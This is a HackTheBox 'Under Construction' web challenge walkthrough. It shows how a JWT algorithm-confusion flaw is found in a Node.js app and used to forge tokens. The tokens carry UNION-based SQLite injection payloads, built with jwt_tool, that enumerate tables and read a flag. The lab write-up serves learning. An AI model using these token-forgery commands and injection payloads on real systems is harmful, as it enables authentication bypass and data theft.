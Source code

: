```yaml
---
Platform:
  - HackTheBox
Category: Web
Difficulty: Medium
Status: Rooted/Finished
Blog Posting: Not Posted
Type: Challenge
---
```

**Link to the Challenge:** [https://app.hackthebox.com/challenges/111](https://app.hackthebox.com/challenges/111)

  

First download the given file.

The give file is a zip file. Extract the zip file using the following command and the given password:

Command: `unzip <zip_file>`

password: `hackthebox`

  

The zip file contains the source code of a web application based on NodeJS and ExpressJS.

I started investigating from the `index.js` file from the root directory.

![[Under Construction/assets/Untitled.png]]

From this, we can infer that `./routes` folder for handling the requests. Next I checked the routes folder and found another `index.js` file in the routes folder.

![[Under Construction/assets/Untitled 1.png]]

From the `index.js` file from the routes folder, we can see that it uses the `AuthMiddleware`, `JWTHelper` and `DBHelper` files to perform all the actions.

So, next I checked the `AuthMiddleware` file.

![[Under Construction/assets/Untitled 2.png|Untitled 2.png]]

This file also used the `JWTHelper` to check whether the tokens are valid.

On taking a look at the `JWTHelper` file,

![[Under Construction/assets/Untitled 3.png|Untitled 3.png]]

we can see that it uses the `jsonwebtoken` library to generate token and sign tokens. As we can see two files, `privatekey` and `publickey` are read from the file system and it uses the `privatekey` to sign the data in the `sign()` function and it uses the public key to decode in the `decode()` function, we can devise that it uses asymmetric encryption to encrypt the tokens.

And also you can see that the sign function uses `RS256` algorithm to sign whereas the decode method allows both `RS256` and `HS256` algorithms to verify the token.

This leads to the **Algorithm Confusion Attack**: [https://portswigger.net/web-security/jwt/algorithm-confusion](https://portswigger.net/web-security/jwt/algorithm-confusion)

  

Let’s take a look at the `DBHelper.js` file.

![[Under Construction/assets/Untitled 4.png|Untitled 4.png]]

The server uses the `sqlite` database of version `sqlite3`. You can also see that the username variable in the `getUser` method is declared explicitly in the SQL request without proper code sanitation, which leads to SQL Injection.

  

From the given source code, we have inferred the following:

- The application is vulnerable to `Algorithm Confusion Attack`
- The application is also vulnerable to `SQL Injection Attack`

  

First we need a valid token to perform SQL Injection Attack on the username field. To create a valid token we can use `JWT_TOOL` ( [https://github.com/ticarpi/jwt_tool](https://github.com/ticarpi/jwt_tool) ) to create a valid token. For that first we need a valid token from the website.

Now start the instance in hackthebox and visit the website.

![[Under Construction/assets/Untitled 5.png|Untitled 5.png]]

You can see that the website has a simple login page. Register a new user and login to get a valid session token.

![[Under Construction/assets/Untitled 6.png|Untitled 6.png]]

![[Under Construction/assets/Untitled 7.png|Untitled 7.png]]

![[Under Construction/assets/Untitled 8.png]]

After logging in, check the `Application` tab in the dev tools of your browser.

![[Under Construction/assets/Untitled 9.png]]

You can see a session token is generated for the current logged in user. Now copy this token and go to [https://jwt.io/](https://jwt.io/) website to decode this token. Paste the token in the Encoded tab and check the Decoded tab. Also store this token in a file in your local machine, I have save it in a file named `sessionToken`.

![[Under Construction/assets/Untitled 10.png]]

You can see that the `Header` section has the algorithm that is being used and the `Payload` section has the `username` field and the Public Key which is used to verify the token according to the decode function in the `JWTHelper.js` which we saw in the source code.

  

Now copy the value of `pk` and paste it in a file in your local machine and replace all the `\n` characters in the Public Key with a new line, since a general Public key will be stored in such format. The server uses the public key which is stored in the server to verify the token, not the public key from this token.

So the Public key that we are going to use should exactly match the public key that is stored in the server for the attack to work.

After replacing the `\n` characters in the public key, your key should look like this:

```
-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA95oTm9DNzcHr8gLhjZaY
ktsbj1KxxUOozw0trP93BgIpXv6WipQRB5lqofPlU6FB99Jc5QZ0459t73ggVDQi
XuCMI2hoUfJ1VmjNeWCrSrDUhokIFZEuCumehwwtUNuEv0ezC54ZTdEC5YSTAOzg
jIWalsHj/ga5ZEDx3Ext0Mh5AEwbAD73+qXS/uCvhfajgpzHGd9OgNQU60LMf2mH
+FynNsjNNwo5nRe7tR12Wb2YOCxw2vdamO1n1kf/SMypSKKvOgj5y0LGiU3jeXMx
V8WS+YiYCU5OBAmTcz2w2kzBhZFlH6RK4mquexJHra23IGv5UJ5GVPEXpdCqK3Tr
0wIDAQAB
-----END PUBLIC KEY-----
```

  

Now to verify whether this key is working, copy this key and go to the [`jwt.io`](http://jwt.io) website and paste the public key in the verify signature tab and check whether the Signature is Verified.

![[Under Construction/assets/Untitled 11.png]]

Now we got the Public Key. Next we have to create valid `JWT` tokens, using `JWT_tool`, so that we can bypass authentication.

  

Now open `burpsuite` and capture the login request and send it to the repeater tab.

First do the `login`, intercept the request with burpsuite and forward the `POST` request, then capture the next immediate `GET` request to `/`

![[Under Construction/assets/Untitled 12.png]]

  

Now, its time to generate a token using `jwt_tool`. Use the following command to generate a token:

```
jwt_tool $(cat sessionToken) -I -pc username -pv someone -X k -pk ./publickey

// Here 
// $(cat sessionToken) : The session token that you got from a valid login
// -I : Inject
// -pc : variable to inject
// -pv : value of the variable to be injected
// -X : Exploit type
// k : Key-Confusion attack
// -pk : public key that we have extracted from the token
```

![[Under Construction/assets/Untitled 13.png]]

Now copy this token and replace with the session token in the burpsuite repeater tab and send the request:

![[Under Construction/assets/Untitled 14.png]]

We got the response back and the attack was successful.

  

Now we have to perform the SQL Injection attack on the username field. You can find some useful payloads for SQLite 3 injection [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL Injection/SQLite Injection.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md)

  

First we have to find the number of columns. You can do this by using the following command:

`jwt_tool $(cat ./sessionToken) -I -pc username -pv "someone' and 1 = 0 union all select 1,1,1--" -X k -pk ./public.key`

![[Under Construction/assets/Untitled 15.png]]

Now send a request using this token.

![[Under Construction/assets/Untitled 16.png]]

The request is valid and we got a response back. From this we can devise that the database is containing three columns.

Now we can get the table using the following command:`jwt_tool $(cat ./sessionToken) -I -pc username -pv "someone' and 1 = 0 union all select 1,group_concat(tbl_name),1 from sqlite_master--" -X k -pk ./public.key`

![[Under Construction/assets/Untitled 17.png]]

Now send the request.

![[Under Construction/assets/Untitled 18.png]]

  

Next we have to find the columns for the above found tables. You can do this by executing sql command:

`jwt_tool $(cat ./sessionToken) -I -pc username -pv "someone' and 1 = 0 union all select 1,group_concat(sql),1 from sqlite_master--" -X k -pk ./public.key`

![[Under Construction/assets/Untitled 19.png]]

Now send the request.

![[Under Construction/assets/Untitled 20.png]]

From the response we can see that the `flag_storage` table has the flag `top_secret_flag`.

Now to get the flag, use the following command:

`jwt_tool $(cat ./sessionToken) -I -pc username -pv "someone' and 1 = 0 union all select 1,group_concat(top_secret_flaag),1 from flag_storage--" -X k -pk ./public.key`

![[Under Construction/assets/Untitled 21.png]]

Now send the request.

![[Under Construction/assets/Untitled 22.png]]

We successfully got the flag…..

  

Thank You !!!!!!